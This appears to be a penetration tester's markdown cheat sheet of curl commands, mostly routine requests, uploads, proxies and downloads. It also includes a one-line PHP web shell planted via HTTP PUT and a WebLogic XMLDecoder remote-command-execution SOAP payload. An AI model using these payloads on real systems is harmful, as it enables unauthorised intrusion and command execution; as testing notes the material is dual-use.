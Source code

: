# curl

quick easy way to interact with http/s, ftp,scp,sftp  
**IMPORTANT** curl URL's need to be put in '' or else often no response this has to do with cli encoding

- GET a webpage
  ```
  # curl 'http://192.168.56.102/test/'
  ```

- POST with message body
  ```
  # curl -d "parm1=xxx" 'http://192.168.56.102/test/'
  ```

- POST with message body read from file
  ```
  # strip new lines
  curl --data "@/path/to/filename" http://...    

  # keep newlines
  curl --data-binary "@/path/to/filename" http://...
  ```

- PUT a file on a webserver (with PUT enabled)
  ```
  $ curl -X PUT -d '<?php echo shell_exec($_GET['cmd']);?>' http://192.168.56.102/test/shell1.php
  ```

- Add a header to GET
  ```
  $ curl -H "Authorization: Bearer ylSkZIjbdWybfsUQe9BqP0LH5Z" http://whatever.com
  ```

- HTTPS
  Need to add the `-k` flag to ignore insecure HTTPS connection
  
- Use a proxy
  ```
  $ curl --proxy http://127.0.0.1:8080 http://detectportal.firefox.co.za
  $ curl --proxy http://127.0.0.1:8080 https://curl.haxx.se/docs/httpscripting.html -k
  ```

- Check if folders have OPTIONS enabled to PUT, in order to upload a file. See WebDAV
  ```
  # curl -X OPTIONS http://192.168.56.102/test/ -vv
  ```

- Download a file
```
  $ curl -o output.file http://server.example.com/output.file
  $ curl -O http://server.example.com/output.file
```

- Upload file
  ```
  # curl -T shell.php http://192.168.56.102/test/shell1.php -0
  ```
  -0 to force the use of HTTP/1.0

- Download file from SSH Server
```
curl -u username sftp://server.example.com/file.txt
## ~ means your $HOME dir ##
curl -u vivek sftp://home1.cyberciti.biz/~/docs/resume.pdf
```




#### Others

```
curl -v --proxy http://127.0.0.1:8080 -d 'userID=trustwavetest&password=XXXXXXXXXX&struts.token.name=struts.token&struts.token=9U90K0G52P73JBUOMMI2IOXX192SO07R' http://172.22.25.38/cpscentre/auth/login.do
```

```
curl -v --proxy https://10.246.78.60:8080 -H "Content-Type: text/xml" -H "Accept-Encoding: gzip, deflate, compress" -d '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
			<java version="1.8.0_151" class="java.beans.XMLDecoder">
			<void class="java.lang.ProcessBuilder">
				<array class="java.lang.String" length="3">
				<void index = "0">
					<string>cmd</string>
				</void>
				<void index = "1">
					<string>/c</string>
				</void>
				<void index = "2">
					<string>ls</string>
				</void>
			</array>
			<void method="start"/>
			</void>
			</java>
			</work:WorkContext>
	</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>' http://{ip}/CoordinatorPortType
```
